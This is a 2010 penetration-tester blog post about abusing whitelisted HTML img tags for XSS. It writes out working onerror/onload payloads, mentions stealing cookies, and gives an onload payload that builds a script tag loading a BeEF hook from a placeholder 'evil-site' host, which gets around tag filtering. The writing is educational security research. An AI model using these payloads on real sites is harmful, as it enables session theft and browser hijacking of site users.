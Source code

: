 ```yaml
---
id: 590
title: 'Exotic XSS: The HTML Image Tag'
date: '2010-04-06T13:45:54-05:00'
author: mtgarden
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=590'
permalink: /2010/exotic-xss-the-html-image-tag
categories:
    - hacking
---
```


There are the usual XSS tests.  And then there are the fun ones.  This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester.  I found that they allowed users to write HTML tags.  Of course they didn't permit &lt;script&gt; tags or &lt;iframe&gt; tags.  (Well, they did allow those, but that was an oops - no server side filtering.)  This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right?  Heh, thanks to Ron, I had a way to abuse their whitelist.  (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.)  Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: &lt;img&gt;, &lt;object&gt;, and &lt;style&gt;.
<!--more-->
You are really unlikely to see &lt;object&gt; and &lt;style&gt; tags permitted, but &lt;img&gt; tags are a bit more common.  Note: since my work on this site, I've seen RSnake's <a title="page" href="http://ha.ckers.org/xss.html" target="_blank">page</a> and other pages that talk about using &lt;img src="alert('XSS')"&gt;.  That was nice in the past, but none of my current version browsers will execute that.  (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail.  If you know, post a comment.)  Still, just because I can't source the javascript, doesn't mean I can't execute javascript....  We'll use different HTML 4 elements.

Now, in my scenario, I decided to input &lt;img src="blah.jpg" onerror="alert('XSS')"/&gt; and reloaded the page.  BINGO! I got a popup box.  This also works and has the advantage of a working image: &lt;img src="realimage.png" onload="alert('XSS')"/&gt;.

That's cool.  It's really easy to check that off on your list and say "vulnerable to XSS."  But, can you do anything besides popping boxes?  Doing something would be useful.  I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?"  More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup.  But why stop there?

Why not create a &lt;script&gt; on the page itself?  What's that you say?  &lt;script&gt; isn't on the whitelist?  So, your point?  If your browser creates the &lt;script&gt; locally, it can't be filtered, now can it?

Thanks to Mak (@mak_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

&lt;img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')[0].appendChild(s);" src="real_image.jpg" /&gt;

We have a image that triggers the onload element.  Now we tell the browser to create a script element.  You may not be able to write &lt;script&gt;, but you are able to write the word "script."  The createElement function tells the browser to create the &lt;script&gt;&lt;/script&gt;.  It's local to the client and the server has no idea.  :-D

Then we give the source element (what else would you use but <a title="BeEF" href="http://www.bindshell.net" target="_blank">BeEF</a>?) and then we place our new element into the page.  Viola! You've just turned a simple &lt;img&gt; tag into stored XSS....

I have noticed that using onload="local_function()," IE8 and FF3.6 have "issues."  Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags.  From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code.  So, how useful is this?  I'd wager it's probably a last resort. If you chained attacks you could potentially use it.  Suppose you bypassed the front line of defense (<a title="like so" href="http://www.skullsecurity.org/blog/?p=560" target="_blank">like so</a>) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing &lt;script&gt; tags.  Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important.  I mean seriously, who allows users to write tags at all?  Let's look forward for a moment.  HTML5 is coming.  According to this<a title="site" href="http://simon.html5.org/html5-elements" target="_blank"> site</a> (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that.  And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more....  Stored XSS will be everywhere for years.  All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers.  (At least they need to prevent users from implementing event handlers.)  We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code.  It's safer.  Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything.  :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events.  If you have suggestions or tips, send them my way.  I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the &lt;img&gt; element on www.digg.com or www.google.com.  Would anyone ever notice?  How long would it take to find it?  Seriously, looking for a compromise, who'd look at the official logo for the infection?  Enjoy your nightmares people.

Cheers.